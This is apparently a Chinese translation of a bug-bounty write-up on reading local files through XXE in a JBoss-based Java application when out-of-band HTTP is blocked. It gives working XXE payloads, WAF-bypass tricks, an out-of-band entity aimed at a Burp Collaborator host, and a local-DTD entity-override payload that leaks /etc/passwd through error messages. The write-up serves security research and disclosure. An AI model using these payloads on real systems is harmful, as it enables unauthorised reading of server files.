


# 通过 XXE 读取本地文件 (HTTP OOB 失败后） - 先知社区

通过 XXE 读取本地文件 (HTTP OOB 失败后）

- - -

# 0x00 前言

大家好，  
今天，我将分享一种非常有趣的利用 XXE 的技术，该技术是我通过[https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)所发现的，且后面经过 GoSecure 团队研究。该方案是在不允许 HTTP 带外请求的情况下，仅根据 DNS 查询记录，通过应用程序抛出 XML 解析的详细错误消息来读取服务器上的本地文件。

# 0x01 发现过程

在用 Burp 测试应用程序时，我意识到 app 在每个端点都使用了基于 JSON 的 REST API。接下来，我尝试将 Content-Type 转换为`application/xml`并重放了其中一个请求，然后发现应用回显里抛出了一些错误信息，该错误显示了应用服务器（JBoss）和其他一些错误详细信息，很明显，该应用希望解析某些 XML，但是请求的 body 却是 JSON。因此，我将请求的 body 由 JSON 转换为相应的 XML。

# 0x02 绕过 waf

该服务器使用了基于云的 WAF，该 WAF 禁止使用`<?xml version=1.0?>`的 XML 声明，因此我不使用 XML 声明，而是直接放入 XML 正文。

```plain
<root>
<id>..</id>
<name>..</name>
</root>
```

我很惊讶地看到该应用程序愉快地接受了该请求，并且请求成功。  
接下来，我快速使用了最简单的 XXE payload 来读取文件/ etc / passwd

```plain
<!DOCTYPE a[
<!ENTITY x SYSTEM "file:///etc/passwd">
]>
<root>
<id>1</id>
<name>&x;</name>
</root>
```

但是 WAF 再次被触发，我所要做的就是在协议之前放置一个空格（即“file：/// etc / passwd”），然后就绕过了 WAF！

# 0x03 利用之旅

但是，该应用程序会验证所有传递的数据，并且不允许“name”或任何其他元素使用如/ etc / passwd 的值，只或多或少地允许使用\[a-zA-Z0-9\]。  
如果我尝试读取不存在的文件，或者读取了/ etc / shadow 之类的文件，则会抛出禁止访问或一些冗长的错误，但不会包含其文件内容，因此可以确认确实存在 XXE 漏洞，而且我还可以确认文件是否存在服务器上或是否可以在服务器上访问，只是我无法通过 response 来获取文件的内容。

# 0x04 XXE OOB

我想跳过所有的这些麻烦，并使用 OOB 技术来通过 FTP 检索文件，因为 app 服务器是 JAVA 技术的并为此使用了 burp collaborator，而且还使用了参数实体而不是常规实体。

```plain
<!DOCTYPE a[
<!ENTITY % x SYSTEM " http://something.burpcollaborator.net"> %x;
]>
<root>
<id>1</id>
<name>test</name>
</root>
```

并通过测试后，知道此处不允许 HTTP 带外（我试了很多次，但是没有成功）

# 0x05 通过子域进行 OOB XXE

一周后，我在一个子域测试中发现了一个 RCE，出于好奇，我在其中托管了一个邪恶的 DTD 文件，以通过此 XXE 在那读取/ etc / passwd，并返回了服务器错误消息和像这样在 Response 本身中显示文件内容：[https](https://blog.netspi.com/forcing-xxe-reflection-server-error-messages/) : [//blog.netspi.com/forcing-xxe-reflection-server-error-messages/](https://blog.netspi.com/forcing-xxe-reflection-server-error-messages/)  
：D  
因为可能是该子域被列入白名单，能够建立带外的连接。  
该公司增加了少量奖金，希望我在不利用已经报告的 RCE 的情况下利用此 XXE 获得全部奖励。

# 0x06 使用 DTD 利用 XXE（不通过 OOB）

在很长一段时间，我无法利用，但随后[https://blog.h3xstream.com/2019/07/automating-local-dtd-discovery-for-xxe.html](https://blog.h3xstream.com/2019/07/automating-local-dtd-discovery-for-xxe.html)  
来了，给了希望。他列出了系统中可能已经存在的一些常见 DTD，以及如何通过简单地覆盖/替换 DTD 中已存在的实体来将它们用于 XXE 以便将 XXE 用于文件读取。但是，该博客上列出的那些 DTD 都不存在于我的目标服务器上。

# 0x07 本地 DTD 技术的简介

如果发现任何 DTD 文件已经存在于目标服务器文件系统的某个位置，该文件由参数实体（例如`<!ENTITY % injectable "something">`）组成，并且在该 DTD 本身的某个位置被饮用（例如`<!ENTITY % random (%injectable;)>`）。然后，我们基本上可以覆盖该实体的内容，而只需在 OOB 中的外部 evil.dtd 中编写将要执行的操作。例如如果服务器上存在 legit.dtd

**/usr/share/xyz/legit.dtd:**

```plain
..
<!ENTITY % injectable "something">
..
<!ENTITY % random (%injectable;)>
..
..
```

如果您在 XXE 中添加以下内容

```plain
<!DOCTYPE xxe[
<!ENTITY x SYSTEM "file:///usr/share/xyz/legit.dtd"> 
<!ENTITY % injectable 'injecting)> You Control Contents inside this DTD now!!! <!ENTITY % fake ('>
%x;
]>
<root>
..
</root>
```

然后，解析的 XML 内容将从现在  
`<!ENTITY % random (%injectable;)>`变为<!ENTITY % random (**injecting)> You Control Contents inside this DTD now!!! <!ENTITY % fake (**)>

# 0x08 本地 DTD 发现

GoSecure 还发布了一种工具来查找 DTD，该 DTD 包含可注入实体，并以 Docker 容器的导出文件系统为输入。所以我拉取了特定版本的 JBoss Docker 镜像，启动了它，并使用以下命令将该 Docker Container 导出到文件系统：

```plain
$ docker export {container} -o jboss.tar
$ java -jar dtd-finder-1.0-all.jar jboss.tar
```

[](https://cdn.nlark.com/yuque/0/2019/png/336528/1575814419125-b2894fc8-27c5-40c1-b71a-32b3b72bffea.png#align=left&display=inline&height=412&name=image.png&originHeight=823&originWidth=1494&size=197710&status=done&style=none&width=747)

它在目标 JBoss Docker 容器的文件系统的 jar / zip 文件中发现了一些带有可注入实体的 DTD。  
发现以下 jar/modules/system/layers/base/org/jboss/security/xacml/main/jbossxacml-x.x.x.Final-redhat-x.jar，其中里面有`/schema/xmlschema/XMLSchema.dtd`文件，该文件包含名为**“ xs-datatypes”**的可注入实体  
下面是 XMLSchema.dtd 的内容：

```plain
....
<!ENTITY % xs-datatypes PUBLIC 'datatypes' 'datatypes.dtd' >
....
%xs-datatypes; <!-- Here We can overwrite parameter Entity % xs-datatypes and our content would be then passed & parsed here-->
...
....
```

因此，我必须在 XXE 有效 payload 中创建以下实体（基本上覆盖 XMLSchema.dtd 中的现有对象）：

```plain
<!ENTITY % xs-datatypes '<!ENTITY &#x25; file SYSTEM " file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27; file:///abcxyz/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
```

幸运的是，我正在测试的是一个基于 Java 的应用程序，该应用程序具有**“ jar”**协议，可用于读取存档（jar / zip 等）中的文件，  
例如：`jar:file://var/www/html/test.zip!/test.txt`其中 test.txt 是 test.zip 中的文件  
由于我是在本地环境上进行所有操作的，因此我首先确认该应用程序中是否还存在该特定的 jar 文件，结果现实确实如此。

接下来，我要做的就是：

1.  使用 jar 协议读取 jbossxacml-xxxFinal-redhat-x.jar 文件中的 XMLSchema.dtd，
2.  创建“xs-datatypes”实体以覆盖内容

```plain
<!DOCTYPE root [
<!ENTITY %  x SYSTEM 
"jar:file:///jboss-as/modules/system/layers/base/org/jboss/security/xacml/main/jbossxacml-x.x.x.Final-redhat-x.jar!/schema/xmlschema/XMLSchema.dtd"> 
<!ENTITY % xs-datatypes ' <!ENTITY &#x25; file SYSTEM " file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27; file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
'>
%x;
]>
<root>
<id>..</id>
<name>test</name>
</root>
```

成功了！它在 HTTP 响应的错误中返回了/ etc / passwd 的内容  
[](https://cdn.nlark.com/yuque/0/2019/png/336528/1575815005824-dbbe2c95-0d9b-4182-9370-9313a4be4ab2.png#align=left&display=inline&height=318&name=image.png&originHeight=635&originWidth=1600&size=363867&status=done&style=none&width=800)

# 0x09 References

[https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/) [https://blog.netspi.com/forcing-xxe-reflection-server-error-messages/](https://blog.netspi.com/forcing-xxe-reflection-server-error-messages/) [https://github.com/GoSecure/dtd-finder](https://github.com/GoSecure/dtd-finder) [https://blog.h3xstream.com/2019/07/automating-local-dtd-discovery-for-xxe.html](https://blog.h3xstream.com/2019/07/automating-local-dtd-discovery-for-xxe.html)

> 本文翻译自[https://www.noob.ninja/2019/12/spilling-local-files-via-xxe-when-http.html](https://www.noob.ninja/2019/12/spilling-local-files-via-xxe-when-http.html)，由 DesMond of TimelineSec 负责翻译
